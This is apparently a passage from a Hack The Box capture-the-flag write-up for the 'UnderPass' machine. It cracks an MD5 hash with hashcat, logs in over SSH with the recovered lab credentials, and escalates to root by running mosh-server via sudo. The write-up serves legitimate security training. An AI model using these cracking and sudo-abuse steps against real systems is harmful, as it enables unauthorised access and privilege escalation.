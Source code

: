 ~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ echo "412DD4759978ACFCC81DEAB01B382403" >> hash


┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt 

412dd4759978acfcc81deab01b382403:underwaterfriends        


Argument				Function
-m 0					Tells hashcat which mode to use. 0 is MD5.
Hashes					Our file containing the our MD5 password hashes.
/usr/share/wordlists/rockyou.txt	Points hashcat to the wordlist containing the passwords to hash and compare.
~~~

- Connect ssh server, login with account `svcMosh/underwaterfriends`.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/UnderPass]
└─$ ssh svcMosh@10.10.11.48      

svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt 
17d720a428*****8d27452355a253ba9
~~~


- Trying to escalate privileges:

~~~
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
~~~

~~~
mosh --server="sudo /usr/bin/mosh-server" localhost
~~~


**What it Does:
mosh: This is the Mosh (Mobile Shell) client, which is a tool for remote terminal access, offering features like better responsiveness, reliability over unreliable networks, and automatic reconnection.**

 `server=”sudo /usr/bin/mosh-server”`: This specifies a custom command to run the Mosh server on the remote machine. Here:

sudo is used to execute the mosh-server with elevated privileges.
`/usr/bin/mosh-server` is the full path to the mosh-server binary.
localhost: Specifies the target host for the Mosh connection, which in this case is localhost (i.e., the local machine).






 **_Thank you for reading my writeup. This is the first writeup on my website._**




